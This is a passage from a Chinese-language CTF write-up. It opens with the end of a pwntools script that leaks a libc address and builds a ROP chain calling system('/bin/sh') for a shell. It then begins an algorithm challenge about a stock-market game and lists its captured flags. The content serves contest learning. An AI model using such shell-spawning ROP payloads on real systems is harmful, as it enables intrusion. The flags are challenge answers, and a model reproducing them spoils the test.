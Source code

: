```python

# 第三个 paylod：尝试读取第二个 payload 在“栈”上产生的 libc 地址
payload = b'\x00' * 120
payload += 0x40150d.to_bytes(8, 'little')  # pop %rbp; ret
payload += 0x404b20.to_bytes(8, 'little')
payload += 0x4014ea.to_bytes(8, 'little')  # rsp = rbp; pop rbp; ret
payload += 0x404d00.to_bytes(8, 'little')
payload += 0x40130a.to_bytes(8, 'little')  # 进入 for 循环里面
send_payload(payload)
log.info("Third payload sent.")

# 第四次
password = get_password()
libc = int.from_bytes(password[8:16], 'little')
libc_base = libc - 0x87dda
print(f"libc_base = 0x{libc_base:016x}")

payload = b'\x00' * 120
payload += 0x40150d.to_bytes(8, 'little')  # pop %rbp; ret
payload += 0x404f00.to_bytes(8, 'little')
# 下面这些用于执行 system("/bin/sh")，直接用 pwntools 生成即可
payload += (libc_base + 0x2a873).to_bytes(8, 'little')
payload += (libc_base + 0x1cb42f).to_bytes(8, 'little') 
payload += (libc_base + 0x404f00).to_bytes(8, 'little') 
payload += (libc_base + 0x58750).to_bytes(8, 'little')
payload += (libc_base + 0x47ba0).to_bytes(8, 'little')
send_payload(payload)

p.interactive()
```

----

## Algorithm

### 股票之神（algo-market）

#### 解题结果

|     flag     |                flag 内容                 |    解出时间    |
| :----------: | :--------------------------------------: | :------------: |
|  我是巴菲特  |   flag{W0W_YOu_4rE_inVeStment_Master}    | 10-18 16:04:35 |
| 我是股票女王 |  flag{Your_S0urcEs_Are_quITe_exten51ve}  | 10-21 09:39:16 |
| 我是股票之神 | flag{p1EAse_C0mE_SiT_1N_tHE_WhiTE_h0uSe} | 10-22 11:32:53 |

#### 解题过程

20% 很简单，随便试试就出来了。我想的大概是：先发送五个负面 truth，等市场价格变得非常低后，大量买入，再发送五个正面 truth，拉高市场价格，在高点卖出。可是这样有一个问题：貌似我的钱太多了，导致在高点的时候卖不完，卖一半左右价格就快速下跌。试了半天也没超过 20% 收益率太多。
